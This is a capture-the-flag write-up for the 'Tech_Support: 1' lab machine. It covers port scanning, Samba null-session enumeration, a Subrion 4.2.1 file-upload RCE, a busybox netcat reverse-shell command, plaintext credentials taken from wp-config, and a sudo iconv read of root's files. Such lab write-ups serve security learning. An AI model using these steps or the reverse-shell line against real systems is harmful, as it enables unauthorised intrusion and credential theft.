# Tech_Support: 1

### Description:

- Difficulty: Easy
- O.S: Linux
### Connectivity

To start this machine I pinged the machine to check the connection and thanks to ttl it's a linux machine.



### Port enumeration

Now we scan with nmap to see which ports and which services are running in this machine.

```bash
nmap <IP> -p- -sS --min-rate 5000 -Pn -n -vvv -oG allports
```



```bash
nmap <IP> -p22,80,139,445 -sCV -oN targeted
```



Seeing the results:
- 22 <- ssh - I don't have any credentials already so we can't do anything for now.
- 80 <- http - Web page.
- 139 & 445 <- samba - Samba service on the network, very interesting.

### Samba enumeration

First of all I have enumerated samba because may have some interesting information.

With smbmap I can check the shared files on the network and if I connect with a null session I can see this:

```bash
smbmap -H <IP>
```



With smbclient I connect to the websvr directory because is the single directory I have access and I download the file 'enter.txt' inside.

```bash
smbclient -N \\\\<IP>\\websvr
```

```bash
get enter.txt
```

Inside this file are the credentials for the subrion service.



The password is encrypted so we can use cyberchef


### Web Page

Now thanks the credentials I can start seeing what's inside the web page.

I can see a ubuntu default page, the next step is fuzzing the directories in the page, for this I use gobuster.

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200
```

The results of gobuster show that there are the /test and /wordpress direcories.




Thanks the file in the samba service I know that the directory /subrion/panel may exist so I enter and paste the credentials we have, now i'm logged with admin account.



### CMS exploitation

The subrion version is the 4.2.1 and that version have the Arbitrary File Upload Vulnerability, this vulnerability ends with a Remote Code Execution and there is a exploit in exploitdb that help me with that.

I executed the exploit in this way for gain a shell with the user www-data



We are in a very limited shell that I can't move directories so I make a reverse shell and trying different ones this one works for me.

```bash
busybox nc <IP> <PORT> -e /bin/bash
```

Searching a little in the directories I have found the wp-config in /var/www/html/wordpress and there was a credential in plain text.



I tested this credential for the scamsite user and worked.



### Privilege Escalation

With the 'sudo -l' command I see I can execute the iconv binary with root user without password, this command let us to read system files.





With the following command I can see the root flag.

```bash
sudo iconv -f 8859_1 -t 8859_1 /root/root.txt
```


### Lessons learned

- Samba access with null session is dangerous and often can leak sensitive data
- Outdated CMS are a way to gain shell access
- Config files with passwords in clear text that are often reused in other services
- Root command without giving password are often the way to fully root compromise the machine